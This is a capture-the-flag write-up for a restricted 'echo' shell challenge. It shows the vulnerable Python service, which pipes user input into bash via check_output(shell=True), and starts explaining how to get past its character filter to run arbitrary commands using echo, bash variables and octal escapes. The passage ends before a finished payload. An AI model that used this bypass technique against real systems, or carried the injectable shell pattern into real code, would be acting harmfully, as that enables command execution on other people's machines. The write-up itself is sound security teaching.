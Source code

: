 ```python
            payload.count(" ") > 30:
        bye("ERROR Too many special chars.")

    return payload


print(colored(banner, choice(colors)))
print("Hi, what would you like to echo today? (make sure to try 'thisfile')")
payload = check_input(input())


print("And how often would you like me to echo that?")
count = max(min(int(input()), 10), 0)

payload += "|bash"*count

close(0)
result = check_output(payload, shell=True, executable="/bin/bash")
bye(result.decode())
```

It's quite easy to understand: we can only input `echo`, `$`, `\\`, `(`, `)`, `;`, `+`, `=`, `'`, and ` ` as our input. The executing number of bash should be less than 10. What's more, they have maxinum input times. Our goal is to bypass the limitation to execute arbitrary commands.

Before explaining my method, let's introduce several concepts:
- `var=22`: give `var` value `22`. The server will not block `echo` or `echoecho` or `echo * n` here. We can use them as varaible name
- `$((echo==echo))`: compare operation in bash, and this will return 1
- `$((1+1))`: add operation which returns 2, `1` can be replaced to bash variable
- `echo $var`: show the value of varaible `var`, it can be number or string
- `echo $'\044'`: out put `$`, its ascii in **oct** is `44`. We can use `$\XXX` to convert **oct** value to its ascii
- `echo 'echo 123' | bash`: output `123`, too easy to explain

Now you may guess out my method: using `echo` and varaible to bypass symbol limitation. Then get number `1` and plus it to access arbitrary number. And finally format them to characters, somehow looks like this:
```bash
#!/bin/bash

# following code is not escaped to understand easily
# first bash execution
# use echo*n to replace varaible name
# get = symbols first
eqaul=\=;

# second bash execution
# use the varaible name to replace those symbols
# e.g. = \s\e\m\i\c\o\l\o\n$equal\;;
# the follwing code should be echo out to bash to execute
# second bash
semicolon=\;;

# third bash execution
lbracket=\(;
rbracket=\);
quote=\';
plus=+;

# now, we control all they symbols
# remember to replace them to craft payload
# it's easiser to replace them from the bottom to the up
# get char
```